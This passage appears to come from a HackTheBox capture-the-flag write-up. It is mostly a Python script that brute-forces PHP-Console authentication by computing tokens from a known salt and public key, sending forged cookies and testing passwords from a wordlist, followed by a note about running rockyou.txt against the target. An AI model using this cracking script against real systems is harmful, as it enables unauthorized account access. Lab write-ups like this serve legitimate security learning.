 ```python

"""
Auth lib -> https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php

"""
if __name__ == '__main__':
    
    SALT = 'NeverChangeIt:)'
    # Pub key is unique because its the sha256sum(clientUID + passwordHash) and the clientUI is the Remote Address, in our case is a fixed one
    # Extracted using chrome extension
    PUB_KEY = "d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e" 
    passwords_list = sys.argv[2]
    hackthebox_url = sys.argv[1]

    auth = PHP_ConsoleAuth(None, SALT, pub_key=PUB_KEY)
    
    success = False

    print("[+] Starting bruteforce on {}  PHP-Console [+]".format(hackthebox_url))
    
    with open(passwords_list, 'r', errors='ignore') as wordlist:
        for password in wordlist.readlines():
            if not password: continue
            password = password.rstrip()
            auth.setPassword(password) 
            auth.calcPassHash()

        
            print("[+] Trying {} [+]".format(password))
            token = auth.getToken()
            json_req = {
                "php-console-client": 5,
                "auth": {
                    "publicKey": PUB_KEY,
                    "token": token 
                } 
            }

            pack = base64.b64encode(json.dumps(json_req).encode()).decode()
            cookie = {"php-console-server": "5", "php-console-client": pack}
            req = requests.post(hackthebox_url, cookies=cookie)

            php_console_res = req.headers.get('PHP-Console', None)
            if php_console_res is None:
                print("Is this really running PHP-CONSOLE ?")
                sys.exit(1)
            
            php_console_res = json.loads(php_console_res)
            success = php_console_res['auth']['isSuccess']

            if success:        
                print("[+] Cracked! Password -> {} [+]".format(password))
                break


```
I downloaded the classic [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist, and run against our target:
